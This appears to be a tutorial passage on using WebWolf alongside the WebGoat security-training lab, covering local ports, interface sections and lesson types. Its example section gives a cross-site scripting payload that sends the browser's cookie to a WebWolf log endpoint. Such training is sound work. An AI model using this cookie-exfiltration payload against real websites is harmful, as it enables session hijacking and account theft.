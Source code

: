 This exposes:
- WebGoat at `http://localhost:8082/WebGoat`
- WebWolf at `http://localhost:9092/WebWolf`

⚠️ Don’t use the default ports (8080 and 9090) directly on host — they may be in use.

---

## 🔓 Accessing WebWolf

Open your browser and go to:

```
http://localhost:9092/WebWolf
```

You will see a simple interface with sections like:
- Email Inbox
- File Upload
- HTTP Request Receiver
- Log Viewer
- Payload Handlers

This interface works **only during lessons that require it**. WebWolf is passive unless triggered by WebGoat modules.

---

## 📚 What WebWolf Teaches You

| Feature            | Lesson Type in WebGoat                    |
|--------------------|-------------------------------------------|
| Email Inbox        | Phishing Simulation, HTML Injection       |
| File Upload        | File Upload Vulnerabilities               |
| XSS Callback       | XSS with external requests                |
| CSRF Simulation    | CSRF form POST/GET handling               |
| HTTP Logging       | Malicious payload delivery logs           |

---

## 🧪 Example: How WebWolf is Used

### Scenario: XSS Callback

1. In WebGoat, complete an XSS challenge.
2. Use a payload like:
   ```html
   <script>fetch("http://localhost:9092/WebWolf/log?cookie="+document.cookie)</script>
   ```
3. When the script runs, it sends the browser’s cookie to WebWolf.
4. Go to `http://localhost:9092/WebWolf/log` to view it.
